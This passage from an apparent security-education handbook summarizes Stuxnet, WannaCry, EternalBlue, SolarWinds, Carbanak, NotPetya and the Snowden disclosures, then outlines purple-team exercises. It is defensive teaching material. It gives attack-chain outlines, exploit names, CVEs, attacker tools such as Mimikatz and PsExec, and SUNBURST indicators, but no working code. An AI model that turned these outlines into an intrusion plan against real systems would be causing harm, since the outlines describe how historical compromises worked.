

*Original conceptual mechanism summary based on [Symantec's W32.Stuxnet Dossier, version 1.4, pages 2–3 and 36 onward](https://nsarchive.gwu.edu/sites/default/files/documents/2700124/Document-44.pdf), cross-checked against [MITRE ATT&CK's Stuxnet profile](https://attack.mitre.org/software/S0603/). Not every infected Windows host reached the industrial-payload stage. Removable-media propagation is documented; this summary does not establish the original ingress path into the target environment.*

### Overview
**Target:** Iranian nuclear facilities (specifically Natanz)  
**Year:** 2010 (discovered)  
**Type:** Nation-state cyberweapon  
**Attribution:** US & Israel (alleged)

### Attack Vector
1. **Propagation:** Removable media and network mechanisms; original target ingress is not established by this summary
2. **Exploitation:** Multiple Windows flaws supported propagation and privilege escalation
3. **Lateral Movement:** Network propagation
4. **Payload Delivery:** PLC (Programmable Logic Controller) manipulation

### Technical Details

```
Stuxnet Attack Chain:
├── Exploits Used (includes a previously patched flaw):
│   ├── MS10-046 (Shell LNK vulnerability)
│   ├── MS10-073 (Keyboard layout vulnerability)
│   ├── MS10-061 (Print Spooler vulnerability)
│   └── MS08-067 (Server Service vulnerability)
├── Targets:
│   ├── Siemens Step 7 software
│   └── Siemens S7-300/400 PLCs
└── Payload:
    ├── Rootkit for stealth
    ├── PLC code injection
    └── Centrifuge manipulation
```

### Key Techniques
```bash
# Stuxnet used multiple attack vectors:

# 1. LNK vulnerability as a documented propagation technique
# A crafted .lnk could trigger code execution when encountered; this does not prove it was the original target ingress

# 2. Rootkit for stealth
# Kernel-mode components hid Stuxnet files and related artifacts

# 3. PLC infection
# Modified Step 7 projects to inject malicious code

# 4. Process manipulation
# Target-specific PLC logic changed drive behavior while falsifying monitoring views
```

### Lessons Learned
- **Isolated networks still have transfer paths** - removable-media propagation is documented, but the original ingress route into the target environment is not established here
- **Target-specific payloads** - activation depended on matching industrial equipment and process conditions
- **Defense in depth** - Multiple layers of compromise required
- **Attribution is difficult** - Sophisticated nation-state operation

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## WannaCry Breakdown



*Original conceptual diagram based on [Microsoft's May 2017 analysis](https://www.microsoft.com/en-us/security/blog/2017/05/12/wannacrypt-ransomware-worm-targets-out-of-date-systems/). Read propagation and encryption as separate functions. The diagram omits variant-specific domain checks and does not establish the initial entry point of every outbreak.*

### Overview
**Target:** Global ransomware attack  
**Year:** May 2017  
**Impact:** 200,000+ computers, 150+ countries  
**Ransom:** $300-600 in Bitcoin  

### Attack Mechanism

```
WannaCry Kill Chain:
├── Propagation: EternalBlue (MS17-010)
├── Encryption: AES-128 & RSA-2048
├── Ransom Note: Multiple languages
└── Kill Switch: Hardcoded domain registration
```

### Technical Analysis

- **Worm propagation:** WannaCry used SMBv1 remote-code-execution flaws, including the vulnerability addressed by [Microsoft security bulletin MS17-010](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010), to reach vulnerable Windows systems over SMB. Network reachability and patch state shaped propagation.
- **Ransomware payload:** The malware encrypted files on infected systems and displayed a ransom demand. This payload is distinct from the worm's network-spread behavior.
- **Evidence limit:** These behaviors describe the campaign, not the initial entry point of every affected organization or every variant.

### Prevention & Mitigation

- Apply the security update appropriate to each supported Windows version and verify status using Microsoft's [MS17-010 guidance](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010). Unsupported systems require an approved replacement or isolation plan.
- Disable SMBv1 where it is not required, after checking dependencies and planning the required system restart.
- Restrict SMB traffic between network zones and from untrusted networks. Keep required file-sharing paths available; do not apply blanket port blocks without an impact review.
- Maintain tested, isolated backups and an incident-response process for suspected encryption or worm propagation.

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## EternalBlue Exploitation



*Original conceptual diagram based on [Microsoft's MS17-010 bulletin](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010) and [WannaCry analysis](https://www.microsoft.com/en-us/security/blog/2017/05/12/wannacrypt-ransomware-worm-targets-out-of-date-systems/). The bulletin covers multiple flaws. EternalBlue is an exploit, not the ransomware itself; port reachability alone does not prove exploitability.*

### Vulnerability Details
**CVE:** CVE-2017-0144  
**Affected:** Microsoft Windows SMBv1 server on the versions listed in the advisories  
**Type:** Remote code execution  
**CVSS:** 8.8 (High, CVSS 3.1 per [NIST NVD](https://nvd.nist.gov/vuln/detail/CVE-2017-0144))

### Defensive Exposure Review

- **Patch status:** Check the managed asset and update inventory against the exact operating-system versions and security updates in [Microsoft bulletin MS17-010](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010). Unsupported systems need an approved isolation or replacement plan.
- **Protocol exposure:** Confirm whether SMBv1 is required. Where it is not, follow Microsoft's [version-specific SMBv1 removal guidance](https://learn.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3), including dependency review and any required restart.
- **Network boundaries:** Restrict SMB access to the segments and systems that need it. An open TCP port or an SMB negotiation response does not establish that a host is vulnerable or patched.
- **Evidence quality:** Use authenticated configuration and patch records as the primary verification. Any authorized vulnerability assessment should use a maintained tool and a defined scope; do not infer CVE status from a protocol banner alone.

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## SolarWinds Attack



*Original conceptual diagram based on [CISA's AA20-352A advisory](https://content.govdelivery.com/accounts/USDHSCISA/bulletins/2b1b32d) and [SolarWinds' investigation updates](https://www.solarwinds.com/blog/an-investigative-update-of-the-cyberattack). Delivery, backdoor communications, and interactive follow-on activity require separate evidence. A valid signature does not demonstrate harmless code, and receiving an affected update does not establish the same outcome for every organization.*

### Overview

**Target:** SolarWinds Orion software supply chain  
**Disclosure:** FireEye notified SolarWinds on December 12, 2020; the incident became public the following day  
**Attribution:** The U.S. government attributed the campaign to Russia's Foreign Intelligence Service (SVR); see CISA's advisory for scope and attribution context

### Attack Timeline

| Period | Evidence-based summary |
|---|---|
| September 2019 | SolarWinds later identified this as the earliest suspicious activity in its internal systems; it is not necessarily the first attacker access. |
| October 2019 | SolarWinds reported a test run of code insertion into Orion builds. |
| February 2020 | SolarWinds reported malicious code insertion into Orion builds began. |
| March–June 2020 | Trojanized Orion updates were released. |
| December 2020 | FireEye notified SolarWinds on December 12; FireEye and SolarWinds made public disclosures on December 13. |

### Attack Chain

- **Build compromise:** The attackers inserted SUNBURST into the Orion build process, outside the ordinary source-code repository workflow described by SolarWinds.
- **Signed distribution:** Affected updates were digitally signed and distributed through the vendor channel. The signature established the signing identity and file integrity after signing, not the safety of the build contents.
- **Delayed and selective activity:** CISA reported a 12–14 day delay before SUNBURST execution. The backdoor used DNS for command-and-control and selected victims for additional activity.
- **Different outcome by environment:** SolarWinds reported that fewer than 18,000 customers had an installation of an affected Orion version. Download, installation, backdoor activation, and hands-on follow-on compromise are distinct states; the number of affected builds is not a count of confirmed intrusions.
- **Multiple initial-access paths:** CISA also documented initial-access vectors beyond Orion. Do not attribute every compromise associated with the broader campaign to SUNBURST alone.

### Detection & Response

- Use the affected-version list, indicators, and response steps in [CISA AA20-352A](https://content.govdelivery.com/accounts/USDHSCISA/bulletins/2b1b32d) and the vendor's [security advisory](https://www.solarwinds.com/sa-overview/securityadvisory/faq). Confirm asset versions and update status from trusted inventory.
- The SHA-256 value `d0d626deb3f9484e649294a8dfa814c5568f846d5aa02d4cdad5d041a29d5600` was published for a known trojanized Orion installer. Treat it as one historical indicator, not a complete detector or a clearance test.
- Correlate DNS, proxy, endpoint, and identity telemetry with the exact indicators and time windows in the advisory. SUNBURST used subdomains under `avsvmcloud.com`; a domain match needs context, and the absence of a match does not prove a clean environment.

### Lessons Learned

- **Build integrity:** Protect and independently monitor source, build agents, signing keys, release pipelines, and artifact provenance.
- **Code signing:** A valid signature is necessary evidence about the signed artifact, not evidence that the build process was uncompromised.
- **Response scope:** Separate receipt of a vulnerable update from activation, follow-on access, and confirmed data access.
- **Attribution:** Preserve uncertainty and distinguish the U.S. government's attribution from technical indicators observed in a specific environment.

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---
## Carbanak APT Campaign



*Original conceptual campaign summary based on [Kaspersky's 2015 investigation](https://securelist.com/the-great-bank-robbery-the-carbanak-apt/68732/). It connects technical intrusion with business-process abuse. Payment and ATM methods varied across cases; the boxes are not one measured timeline or a universal sequence.*

### Overview
**Target:** Financial institutions worldwide  
**Year:** 2013-2015 (primary activity)  
**Type:** Advanced Persistent Threat  
**Impact estimate:** Kaspersky reported up to $1 billion in losses and attacks on up to 100 banks, e-payment systems, and other financial institutions in about 30 countries; these were estimates, not a final audited total.

### Attack Methodology

```
Carbanak Attack Lifecycle:
├── Phase 1: Initial Compromise
│   ├── Spear-phishing emails
│   ├── Malicious Word/Excel documents
│   └── Reported Office exploits: CVE-2012-0158, CVE-2013-3906, CVE-2014-1761
├── Phase 2: Reconnaissance
│   ├── Video surveillance of employees
│   ├── Screenshot capture
│   └── Network mapping
├── Phase 3: Lateral Movement
│   ├── Mimikatz credential dumping
│   ├── PsExec for remote execution
│   └── RDP-based remote access, including concurrent sessions
├── Phase 4: Target Identification
│   ├── Locate administrators
│   ├── Find payment systems
│   └── Identify ATM controllers
└── Phase 5: Money Theft
    ├── ATM cash-out operations
    ├── SWIFT transaction manipulation
    └── Fraudulent transfers
```

### Technical Details

```bash
# Carbanak malware capabilities

# 1. Remote access trojan (RAT)
# Command and control server communication

# 2. Video recording
# Screen and webcam capture for reconnaissance

# 3. VNC-style remote control
# Full desktop access to compromised systems

# 4. File system access
# Upload/download files

# 5. Process manipulation
# Inject code into legitimate processes
```

### Defensive Tabletop Exercise

This scenario is a discussion exercise, not a runnable attack simulation. Use fictional event cards and synthetic records only. Do not create persistence, contact external hosts, inspect user histories, scan networks, collect credentials, or archive real data.

**Facilitator events:**

1. An endpoint alert reports a suspicious office-document launch.
2. A synthetic process event shows an unapproved scheduled-task change.
3. A mock network event reports unusual internal discovery behavior.
4. A simulated file-staging alert reports attempted access to a payment-system share.

**Responder tasks:**

- Identify the owner, scope, severity, and likely impact of each event.
- State which endpoint, identity, network, and file-access telemetry would confirm or disprove the hypothesis.
- Choose containment and evidence-preservation steps; do not access employee data or payment systems.
- Record recovery, credential-reset, communication, and lessons-learned decisions.



[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## NotPetya Ransomware



*Original conceptual diagram based on [Mandiant's June 2017 analysis](https://cloud.google.com/blog/topics/threat-intelligence/petya-ransomware-spreading-via-eternalblue-exploit/) and [Microsoft's technical analysis](https://www.microsoft.com/en-us/security/blog/2017/06/27/new-ransomware-old-techniques-petya-adds-worm-capabilities/). The parallel routes matter: patching an SMB flaw does not remove credential-based movement. This is a summary, not an executable attack or recovery procedure.*

### Overview

**Target:** Ukraine was the primary initial impact; infections caused global collateral damage  
**Year:** June 2017  
**Type:** Destructive wiper disguised as ransomware  
**Impact:** Billions of dollars in estimated damage worldwide; the U.S. government described the damage as billions, while higher precise figures are estimates

### Technical Analysis

- **Initial infection:** Investigations identified a compromised update mechanism for the Ukrainian M.E.Doc accounting software as a campaign entry route.
- **Later propagation:** NotPetya used the EternalBlue and EternalRomance SMB exploits addressed by MS17-010, and also reused harvested credentials through WMI and PsExec. These were separate routes for lateral movement.
- **Destructive behavior:** The malware modified the Master Boot Record (MBR), encrypted the Master File Table (MFT), and rebooted the system. Microsoft reported that it lacked the normal victim-specific key registration needed for a dependable ransomware recovery service; treat affected systems as destructive incidents, not as systems recoverable by paying.
- **Recovery limits:** Forensic recovery may depend on disk and incident state and is not guaranteed. “Decryption impossible” is too broad; preserve affected media and use qualified incident-response support before attempting recovery.

### Key Differences from WannaCry

| Feature | WannaCry | NotPetya |
|---|---|---|
| Primary impact | Ransomware encryption and disruption | Destructive impact presented as ransomware |
| Initial entry | Not established for every affected organization | Compromised M.E.Doc update mechanism identified in the 2017 campaign |
| Propagation | SMBv1-based worm behavior; see [WannaCry analysis](#wannacry-breakdown) | SMB exploits plus stolen-credential WMI/PsExec routes |
| Response | Apply supported updates and follow current incident guidance | Isolate, preserve evidence, rebuild from trusted media, and restore verified backups |

### Impact and Defensive Analysis

NotPetya's boot and file-system changes disrupted system availability and impeded recovery. The diagram below is a conceptual response flow, not an implementation guide.



For a tabletop, use synthetic records only. Discuss detection of unexpected raw-disk access, boot-configuration changes, encryption behavior, and forced restarts. Do not write to physical disks or boot sectors.

### Detection & Response

- Treat historical file hashes and domains as time-bounded indicators, not a complete detector or a clearance test. Consult current vendor and government advisories for the environment under investigation.
- Correlate endpoint, authentication, SMB, WMI, PsExec, and update-service evidence to distinguish initial delivery from later movement.
- Preserve affected systems and logs, isolate confirmed incidents, and recover from known-good images and verified offline backups. Do not rely on ransom payment to restore data.
- Review credential exposure and restrict remote administration paths to approved systems and operators.

### Prevention Measures

- Apply the security update appropriate to each supported Windows version in [Microsoft bulletin MS17-010](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010).
- Disable SMBv1 where it is not required after checking dependencies and planning for any required restart; follow [Microsoft's version-specific guidance](https://learn.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3).
- Restrict SMB, WMI, and remote-execution access to required management systems and segments.
- Maintain tested offline or immutable backups and a recovery plan that can operate if directory, deployment, or backup-management systems are affected.

### Sources

- [Mandiant — Petya-like malware campaign analysis](https://cloud.google.com/blog/topics/threat-intelligence/petya-ransomware-spreading-via-eternalblue-exploit/)
- [Microsoft — New ransomware, old techniques: Petya adds worm capabilities](https://www.microsoft.com/en-us/security/blog/2017/06/27/new-ransomware-old-techniques-petya-adds-worm-capabilities/)
- [Microsoft — Petya overview and destructive design](https://www.microsoft.com/en-us/security/blog/2018/02/05/overview-of-petya-a-rapid-cyberattack/)
- [The White House — Statement on the NotPetya attack](https://trumpwhitehouse.archives.gov/briefings-statements/statement-press-secretary-25/)

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---
## Edward Snowden Revelations



*Original conceptual diagram of the [PCLOB's July 2014 Section 702 report, printed pages 32–35](https://www.intelligence.gov/assets/documents/702-documents/702-Report-2_OCR.pdf). PRISM involved compelled provider delivery associated with tasked selectors; upstream collection occurred as communications transited the backbone. The figure covers these historical pathways, not every disclosure or today's legal framework.*

### Overview

**Discloser:** Edward Snowden, an NSA contractor  
**Public disclosures began:** June 2013  
**Document count:** U.S. government estimates ranged as high as 1.7 million files; Snowden disputed that figure, and “accessed,” “removed,” and “published” are different counts. The exact number is uncertain.

### Programs and Collection Pathways

| Program or system | Evidence-based description |
|---|---|
| PRISM / Section 702 downstream | Government directives compelled participating providers to produce communications associated with tasked selectors. This was not unrestricted direct access to every provider server. |
| Upstream collection | A separate pathway acquired communications as they transited the communications backbone. The PCLOB report discusses distinct targeting and filtering rules; do not merge it with provider delivery. |
| XKEYSCORE | An intelligence analysis tool used to search and analyze collected data. Legal authority and safeguards depend on the collection and query context; the tool name does not establish a blanket “no warrant required” rule. |
| MUSCULAR | Contemporary reporting based on Snowden documents described NSA/GCHQ interception of traffic on private links between Google and Yahoo data centers. This is distinct from PRISM and is not accurately summarized as generic “undersea cable tapping.” |
| MYSTIC / RETRO | Reporting described a 30-day rolling recording of calls in the Bahamas and one unnamed country, with RETRO retrieval within that window. This was a report about specific deployments, not a claim that every target country had all calls recorded. |
| BULLRUN | A reported NSA effort to obtain access to encrypted communications through technical operations and other means. The disclosures do not establish that all modern encryption was broken or that every commercial product contained a backdoor. |

### Technical Capabilities and Evidence Limits

A leaked NSA ANT catalog, reported in 2013, described examples of hardware and software implants. A catalog listing documents capability or design; by itself, it does not prove that a particular implant was deployed against a named person or device.

The Snowden-era reporting on **Dual_EC_DRBG** raised a serious concern that its parameter choices could permit a trapdoor. NIST's later account describes the concern and the standards-process controversy. This should not be generalized into a claim that all NIST standards, TLS, or encrypted products were backdoored. Heartbleed was a separate OpenSSL implementation vulnerability, not itself a cryptographic standard or proof of a Snowden-era NSA capability.

The exact number and scope of files remain disputed. Treat official damage estimates, Snowden's account, and the set of documents journalists published as separate claims with different provenance.

### Privacy and Security Lessons

- End-to-end encryption can protect message content in transit, but it does not protect a compromised endpoint or hide all metadata.
- Minimize sensitive data collection and retention, and review what providers and devices can access.
- Use layered protections and evaluate implementations, key management, endpoints, and backups; a product label or an open-source license alone does not establish security.
- Preserve the legal and historical context of each program. A collection capability does not, by itself, explain its authorization, oversight, or use in every case.

### Sources

- [PCLOB — July 2014 Section 702 report](https://www.intelligence.gov/assets/documents/702-documents/702-Report-2_OCR.pdf), including PRISM and upstream collection.
- [PCLOB — 2023 Section 702 report](https://documents.pclob.gov/prod/Documents/OversightReport/8ca320e5-01d3-4d6a-8106-3384aad6ff31/2023%20PCLOB%20702%20Report%20-%20Nov%2017%202023%20-%201446.pdf), describing current terminology for downstream and upstream pathways.
- [PCLOB — XKEYSCORE oversight reports](https://www.pclob.gov/Oversight).
- [The Washington Post — MUSCULAR data-center-link reporting](https://www.washingtonpost.com/world/national-security/nsa-infiltrates-links-to-yahoo-google-data-centers-worldwide-snowden-documents-say/2013/10/30/e51d661e-4166-11e3-8b74-d89d714ca4dd_story.html).
- [The Washington Post — MYSTIC and RETRO reporting](https://www.washingtonpost.com/world/national-security/nsa-surveillance-program-reaches-into-the-past-to-retrieve-replay-phone-calls/2014/03/18/226d2646-ade9-11e3-a49e-76adc9210f19_story.html).
- [NIST — Cryptographic standards and the Dual_EC_DRBG controversy](https://csrc.nist.gov/nist-cyber-history/cryptography/chapter).
- [DIA Director — 1.7 million document estimate](https://www.dia.mil/Articles/Speeches-and-Testimonies/Article/567078/dia-director-flynn-unauthorized-disclosures-have-caused-grave-damage-to-our-nat/).

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---
# TEAM PLAYBOOKS

## Purple Team Playbook (Simple)

### Purple Team Overview

**Purpose:** Combine red-team simulation and blue-team monitoring to improve defensive controls.

**Objectives:**
1. Validate detection and response within an agreed scope.
2. Improve defensive measures.
3. Share evidence and assumptions between teams.
4. Measure coverage, alert quality, and response time.

### Simple Purple Team Exercise

Use a tabletop card or a preapproved benign event in an isolated lab. Do not scan production systems or unspecified targets.

| Role | Exercise task |
|---|---|
| Red | Present a synthetic “unexpected port-scan behavior” event, or generate a preapproved benign signal inside the contained lab. Record the scope and stop condition. |
| Blue | Check which approved telemetry would observe the event, whether the expected alert appears, and what evidence supports the conclusion. |
| Purple | Compare the observed result with the exercise objective, document gaps, and agree on a detection or process change. |

The record below is **fictional training data**, not a scan result or network event:

```text
event_time=2026-01-01T12:00:00Z
event_type=synthetic-port-scan-alert
source_ip=198.51.100.25
destination_ip=192.0.2.10
rule_id=LAB-PORT-SCAN-001
```



### Purple Team Meeting Agenda

```text
1. Pre-Exercise (30 min)
   - Define scope and exclusions
   - Set objectives, owners, and stop conditions
   - Agree on synthetic or preapproved lab inputs
   - Confirm telemetry and evidence handling

2. Execution (2–3 hours)
   - Red team supplies the approved signal or tabletop card
   - Blue team monitors and responds within scope
   - Record evidence, timestamps, and limitations

3. Debrief (1 hour)
   - Review detection effectiveness and missed evidence
   - Identify gaps and assign improvements
   - Confirm cleanup and closeout

4. Follow-up (1 week)
   - Verify the agreed defensive changes
   - Update playbooks
   - Schedule the next scoped exercise
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---
## Purple Team Playbook (Detailed)

### Comprehensive Purple Team Framework

This maturity scale is an **illustrative planning aid**, not an industry certification or standardized assessment.

| Level | Practice |
|---|---|
| 1 — Ad hoc | Exercises are occasional and lessons are not consistently recorded. |
| 2 — Defined | Scope, roles, objectives, and cleanup are documented. |
| 3 — Measured | Teams track detection coverage, evidence quality, and response decisions. |
| 4 — Integrated | Exercise findings inform engineering, operations, and incident-response improvements. |
| 5 — Adaptive | Teams regularly reassess priorities and verify that completed changes work as intended. |

### Detailed Exercise Template

Use this template for a tabletop or a contained simulation that produces **synthetic telemetry only**. Do not send real phishing messages, execute credential-dumping or evasion tools, collect credentials, or access production systems as part of this example.

```yaml
exercise:
  name: "Synthetic identity-alert review"
  date: "YYYY-MM-DD"
  facilitator: "assigned exercise owner"
  environment: "tabletop or isolated lab"
  objectives:
    - "Confirm which approved telemetry records the synthetic event"
    - "Evaluate alert routing and triage decisions"
  scope:
    in_scope: "synthetic event data and designated monitoring workspace"
    out_of_scope:
      - "production identities and endpoints"
      - "real messages, credentials, or customer data"
      - "external networks"
    stop_conditions:
